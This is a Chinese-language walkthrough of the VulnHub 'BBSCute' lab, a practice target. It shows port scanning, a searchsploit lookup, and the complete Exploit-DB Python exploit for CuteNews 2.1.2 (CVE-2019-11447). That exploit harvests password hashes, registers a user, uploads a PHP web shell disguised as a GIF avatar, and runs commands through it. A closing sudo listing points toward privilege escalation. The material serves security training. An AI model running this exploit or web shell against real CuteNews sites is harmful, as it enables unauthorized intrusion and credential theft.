



# BBSCute 1.0.2

> https://download.vulnhub.com/bbs-cute/Cute-v1.0.2.ova.bz2

靶场IP：`192.168.2.10`

扫描对外端口服务

```
┌──(root㉿kali)-[~/Desktop]
└─# nmap -p1-65535 -sV 192.168.2.10
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-05 10:13 EDT
Nmap scan report for 192.168.2.10
Host is up (0.00028s latency).
Not shown: 65530 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
88/tcp  open  http     nginx 1.14.2
110/tcp open  pop3     Courier pop3d
995/tcp open  ssl/pop3 Courier pop3d
MAC Address: 08:00:27:FF:D9:F2 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.97 seconds

                                                                
```

访问80端口





访问88端口


查找CuteNews漏洞

```
┌──(root㉿kali)-[~/Desktop]
└─# searchsploit CuteNews 2.1.2 
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
CuteNews 2.1.2 - 'avatar' Remote Code Execution (Metasploit)                                                                                                                                              | php/remote/46698.rb
CuteNews 2.1.2 - Arbitrary File Deletion                                                                                                                                                                  | php/webapps/48447.txt
CuteNews 2.1.2 - Authenticated Arbitrary File Upload                                                                                                                                                      | php/webapps/48458.txt
CuteNews 2.1.2 - Remote Code Execution                                                                                                                                                                    | php/webapps/48800.py
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

exp：https://www.exploit-db.com/exploits/48800

```
# Exploit Title: CuteNews 2.1.2 - Remote Code Execution
# Google Dork: N/A
# Date: 2020-09-10
# Exploit Author: Musyoka Ian
# Vendor Homepage: https://cutephp.com/downloading.php
# Software Link: https://cutephp.com/downloading.php
# Version: CuteNews 2.1.2
# Tested on: Ubuntu 20.04, CuteNews 2.1.2
# CVE : CVE-2019-11447

#! /bin/env python3

import requests
from base64 import b64decode
import io
import re
import string
import random
import sys


banner = """


           _____     __      _  __                     ___   ___  ___ 
          / ___/_ __/ /____ / |/ /__ _    _____       |_  | <  / |_  |
         / /__/ // / __/ -_)    / -_) |/|/ (_-<      / __/_ / / / __/ 
         \___/\_,_/\__/\__/_/|_/\__/|__,__/___/     /____(_)_(_)____/ 
                                ___  _________                        
                               / _ \/ ___/ __/                        
                              / , _/ /__/ _/                          
                             /_/|_|\___/___/                          
                                                                      

                                                                                                                                                   
"""
print (banner)
print ("[->] Usage python3 expoit.py")
print ()
sess = requests.session()
payload = "GIF8;\n<?php system($_REQUEST['cmd']) ?>"
ip = input("Enter the URL> ")
def extract_credentials():
    global sess, ip
    url = f"{ip}/cdata/users/lines"
    encoded_creds = sess.get(url).text
    buff = io.StringIO(encoded_creds)
    chash = buff.readlines()
    if "Not Found" in encoded_creds:
            print ("[-] No hashes were found skipping!!!")
            return
    else:
        for line in chash:
            if "<?php die('Direct call - access denied'); ?>" not in line:
                credentials = b64decode(line)
                try:
                    sha_hash = re.search('"pass";s:64:"(.*?)"', credentials.decode()).group(1)
                    print (sha_hash)
                except:
                    pass
def register():
    global sess, ip
    userpass = "".join(random.SystemRandom().choice(string.ascii_letters + string.digits ) for _ in range(10))
    postdata = {
        "action" : "register",
        "regusername" : userpass,
        "regnickname" : userpass,
        "regpassword" : userpass,
        "confirm" : userpass,
        "regemail" : f"{userpass}@hack.me"
    }
    register = sess.post(f"{ip}/index.php?register", data = postdata, allow_redirects = False)
    if 302 == register.status_code:
        print (f"[+] Registration successful with username: {userpass} and password: {userpass}")
    else:
        sys.exit()
def send_payload(payload):
    global ip
    token = sess.get(f"{ip}/index.php?mod=main&opt=personal").text
    signature_key = re.search('signature_key" value="(.*?)"', token).group(1)
    signature_dsi = re.search('signature_dsi" value="(.*?)"', token).group(1)
    logged_user = re.search('disabled="disabled" value="(.*?)"', token).group(1)
    print (f"signature_key: {signature_key}")
    print (f"signature_dsi: {signature_dsi}")
    print (f"logged in user: {logged_user}")

    files = {
        "mod" : (None, "main"),
        "opt" : (None, "personal"),
        "__signature_key" : (None, f"{signature_key}"),
        "__signature_dsi" : (None, f"{signature_dsi}"),
        "editpassword" : (None, ""),
        "confirmpassword" : (None, ""),
        "editnickname" : (None, logged_user),
        "avatar_file" : (f"{logged_user}.php", payload),
        "more[site]" : (None, ""),
        "more[about]" : (None, "")
    }
    payload_send = sess.post(f"{ip}/index.php", files = files).text
    print("============================\nDropping to a SHELL\n============================")
    while True:
        print ()
        command = input("command > ")
        postdata = {"cmd" : command}
        output = sess.post(f"{ip}/uploads/avatar_{logged_user}_{logged_user}.php", data=postdata)
        if 404 == output.status_code:
            print ("sorry i can't find your webshell try running the exploit again")
            sys.exit()
        else:
            output = re.sub("GIF8;", "", output.text)
            print (output.strip())

if __name__ == "__main__":
    print ("================================================================\nUsers SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN\n================================================================")
    extract_credentials()
    print ("================================================================")
    print()
    print ("=============================\nRegistering a users\n=============================")
    register()
    print()
    print("=======================================================\nSending Payload\n=======================================================")
    send_payload(payload)
    print ()      
```

直接用exp执行命令



查看sudo列表

```
command > sudo -l
Matching Defaults entries for www-data on cute:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on cute:
    (root) NOPASSWD: /usr/sbin/hping3 --icmp

```

